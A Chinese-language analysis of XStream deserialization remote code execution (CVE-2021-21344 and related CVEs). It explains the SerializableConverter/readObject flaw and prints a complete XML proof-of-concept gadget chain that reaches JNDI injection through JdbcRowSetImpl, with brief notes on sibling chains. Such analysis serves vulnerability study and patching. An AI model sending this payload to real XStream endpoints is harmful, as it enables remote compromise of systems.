


# CVE-2021-21344(45 47 50 51)-远程代码执行
## 影响范围
Xstream <= 1.4.15
## 漏洞分析
主要原因在于Xstream在将XML转换为JAVA对象时,对于实现了`Serializable`和没有实现该接口的对象类处理方式不同,从而调用的Converter不同,对于实现了`Serializable`接口的对象使用的是`SerializableConverter`,对于未实现该接口调用的是`ReflectionConverter`,而在`SerializableConverter`中会调用对象类重写`readObject`方法,导致反序列化RCE.  
实例类代码如下:
```java
    public static class test implements Serializable{
        public int age;
        public String name;
        public void setAge(int age) {
            this.age = age;
        }
        public void setName(String name){
            this.name = name;
        }
        public int getAge(){
            return this.age;
        }
        public String getName(){
            return this.name;
        }
        private void readObject(ObjectInputStream ob) throws IOException,ClassNotFoundException {
            System.out.println("test");
            ob.defaultReadObject();
        }
    }
```
```java
        XStream stream = new XStream();
        test test = new test();
        String xml = stream.toXML(test);
        System.out.println(xml);
        stream.fromXML(xml);
```
结果如下:

可以看到多了一个`serialization="custom"`标识来表示该对象类实现了`Sserializable`接口,并且在XML转化为JAVA对象时调用了该对象类的`readObject`方法.
## 利用思路
利用思路则是寻找一条重写了`readObject`方法的利用链即可.
POC:
```xml
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.rowset.JdbcRowSetImpl</class>
                          <name>getDatabaseMetaData</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
                  <javax.sql.rowset.BaseRowSet>
                    <default>
                      <concurrency>1008</concurrency>
                      <escapeProcessing>true</escapeProcessing>
                      <fetchDir>1000</fetchDir>
                      <fetchSize>0</fetchSize>
                      <isolation>2</isolation>
                      <maxFieldSize>0</maxFieldSize>
                      <maxRows>0</maxRows>
                      <queryTimeout>0</queryTimeout>
                      <readOnly>true</readOnly>
                      <rowSetType>1004</rowSetType>
                      <showDeleted>false</showDeleted>
                      <dataSource>rmi://localhost:15000/CallRemoteMethod</dataSource>
                      <params/>
                    </default>
                  </javax.sql.rowset.BaseRowSet>
                  <com.sun.rowset.JdbcRowSetImpl>
                    <default>
                      <iMatchColumns>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                      </iMatchColumns>
                      <strMatchColumns>
                        <string>foo</string>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                      </strMatchColumns>
                    </default>
                  </com.sun.rowset.JdbcRowSetImpl>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```
### PriorityQueue类
PriorityQueue类是实现了Serializable接口并重写了readObject方法的一个类,从POC可以看到带其`serialization=custom`属性,
在该类重写的`readObject`可以看到最后调用了`heapify()`方法.

#### $IndexOrderComparator
跟进`heapify()`方法中一路到`siftDown`方法中,其中根据属性`comparator`是否为空调用不同的方法,POC中设置了该属性为`datatransfer.DataTransferer$IndexOrderComparator`,也就是会调用`siftDownUsingComparator(k, x)`.

而在`siftDownUsingComparator`中会调用到`comparator.compare`,也就是`IndexOrderComparator`的`compare方法`.

#### JdbcRowSetImpl
在`IndexOrderComparator`的`compare方法`的一系列嵌套调用中最后会调用反射来到`JdbcRowSetImpl#getDatabaseMetaData`中通过获取`dataSource`属性值传入connect()中的lookup造成JDNI注入.  
调用栈如下:

## 总结
1. Xstream在将XML数据转化为JAVA对象类时,如果原来的JAVA对象类实现了序列化接口则会调用`SerializableConverter`转换器来进行转换,其中会调用其重写的readObject()方法.
2. 因为所有参数都是从XML数据中获取,全部可控,找一个重写了readObject能利用的链即可.
3. PriorityQueue类实现了序列化接口,并且重写了readObject,其中构造参数使用反射调用到`JdbcRowSetImpl`方法中造成JNDI注入.

## 其它利用链
后续几个CVE原理都一样,主要在于其利用的链不同.
### CVE-2021-21345
该CVE主要利用`com.sun.corba.se.impl.activation.ServerTableEntry类`直接在本地执行恶意代码而不再通过JDBC链去远程加载恶意类.
### CVE-2021-21347
该CVE主要利用`javafx.collections.ObservableList$1`的compare方法来使用URLClassLoader来加载远程恶意类.
### CVE-2021-21350
该CVE与CVE-2021-21347相似,只不过最后不是利用URLClassLoader来远程加载,而是使用BCEL的方式.
### CVE-2021-21351
## 参考
https://www.freebuf.com/articles/web/268553.html  
https://x-stream.github.io/security.html